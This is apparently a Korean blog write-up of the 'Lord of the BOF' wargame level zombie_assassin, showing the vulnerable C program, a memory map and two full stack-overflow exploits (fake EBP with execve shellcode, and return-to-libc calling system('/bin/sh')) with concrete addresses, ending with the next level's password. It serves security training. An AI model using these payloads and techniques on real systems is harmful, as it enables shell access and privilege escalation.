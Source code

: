 ```yaml
---
layout: post
title:  "[LOB]Level16. zombie_assassin"
subtitle:   "[LOB]assassin → zombie_assassin"
categories: Write-up
tags:
- Wargame
- LOB
- Write-up
---
```


## Keyword : fake ebp

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	// strncpy instead of strcpy!
	strncpy(buffer, argv[1], 48);
	printf("%s\n", buffer);
}
```

분기문을 통해서 '\xbf', '\x40' 으로 시작하는 주소들을 모두 필터링 된다.

```assembly
[assassin@localhost assassin]$ cat /proc/751/maps
08048000-0817d000 r-xp 00000000 08:05 129443     /usr/bin/gdb
0817d000-08184000 rw-p 00134000 08:05 129443     /usr/bin/gdb
08184000-0850f000 rwxp 00000000 00:00 0
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40018000 rw-p 00000000 00:00 0
40018000-4004d000 r-xp 00000000 08:05 96962      /usr/lib/libncurses.so.4.0
4004d000-40056000 rw-p 00034000 08:05 96962      /usr/lib/libncurses.so.4.0
40056000-4005a000 rw-p 00000000 00:00 0
4005a000-40076000 r-xp 00000000 08:08 34156      /lib/libm-2.1.3.so
40076000-40077000 rw-p 0001b000 08:08 34156      /lib/libm-2.1.3.so
40077000-40164000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40164000-40168000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40168000-4016c000 rw-p 00000000 00:00 0
4016c000-40182000 r--p 00000000 08:05 32279      /usr/share/locale/en_US/LC_CTYPE
40182000-40290000 rw-p 00000000 00:00 0
bfffb000-c0000000 rwxp ffffc000 00:00 0
```

#### Shellcode를 이용한 공격



##### shellcode(24byte) :

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



##### payload 시나리오 :

```sh
./zombie_assassin `python -c print "&[buf+4]"+"shellcode(24byte)"+"\x90"*12+"&[buf-4]"+"&leave-ret 가젯"
```



&[buf-4] : 0xbffffaac

&leave-ret : 0x08048311

&[buf+4] : 0xbffffab4



> gdb 통해 얻은 buf의 주소와 실제 구동되는 buf의 주소가 0x10주소 만큼 차이가 나서 삽질을 많이 했다.
>
> leave-ret 을 이용하여 fakeEBP기법을 사용하면 esp가 buf+4 로 이동하기 때문에 buf-4의 주소를 넣어주어야 실제 buf 주소가 실행된다.
>
> eip에는 shellcode가 있는 시작 주소가 들어가야 하기 때문에, buf시작 부분에 shellcode의 시작 주소를 넣어주었다.



##### payload 실제코드 :

```sh
./zombie_assassin `python -c 'print "\xb4\xfa\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*12+"\xac\xfa\xff\xbf"+"\x11\x83\x04\x08"'`
```



------



#### RTL (Return to Library)를 이용한 공격

##### exploit 시나리오 :

./zombie_assassin `python -c print "&system()"+"\x90"*4+"&["/bin/sh"]"+"\x90"*38+"&[buf-4]"+"&leave-ret 가젯"

&[buf-4] : 0xbffffaac

&[buf+4] : 0xbffffab4

&leave-ret : 0x08048311

&system() : 0x40058ae0

&"/bin/sh" : 0x400fbff9



##### exploit 실제코드:

```sh
./zombie_assassin `python -c 'print "\xe0\x8a\x05\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\x90"*28+"\xac\xfa\xff\xbf"+"\x11\x83\x04\x08"'`
```



#### zombie_assassin / no place to hide